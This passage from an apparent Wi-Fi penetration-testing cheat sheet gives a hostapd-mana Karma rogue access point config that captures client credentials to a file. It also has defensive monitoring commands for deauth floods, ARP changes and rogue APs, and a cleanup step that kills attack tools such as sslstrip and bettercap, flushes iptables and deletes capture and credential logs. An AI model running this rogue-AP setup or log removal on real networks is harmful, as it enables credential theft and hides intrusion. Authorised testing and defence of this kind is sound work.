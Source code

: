 ### Karma/Mana

```bash
# hostapd-mana
cat > /tmp/mana.conf << EOF
interface=wlan0
ssid=FreeWiFi
channel=6
karma_attack=1
enable_loud_karma=1
mana_credout=/tmp/mana_creds.txt
EOF

hostapd-mana /tmp/mana.conf

# Check captured SSIDs
cat /tmp/mana_creds.txt
```

### Defense Testing

```bash
# Monitor for Deauths
tshark -i wlan0 -Y "wlan.fc.type_subtype == 0x0c"

# ARP Monitoring
arpwatch -i wlan0
tail -f /var/log/arpwatch/arp.dat

# Kismet with Alerts
# In kismet.conf:
alert=DEAUTHFLOOD,10/sec
alert=PROBENOJOIN,5/min

# Scan for Rogue APs
airodump-ng wlan0 | grep -i "<YOUR_SSID>"
# Zwei BSSIDs = Rogue AP!
```

### Cleanup

```bash
# Stop All
killall hostapd dnsmasq apache2 arpspoof sslstrip bettercap reaver

# Reset Interface
ip link set wlan0 down
iw dev wlan0 set type managed
ip link set wlan0 up
macchanger -p wlan0  # Reset MAC

# Flush iptables
iptables -F
iptables -t nat -F
echo 0 > /proc/sys/net/ipv4/ip_forward

# Remove Logs (oder sichere sie)
rm /tmp/*.cap /tmp/*.pcap /tmp/*.log /tmp/creds.txt
```

---
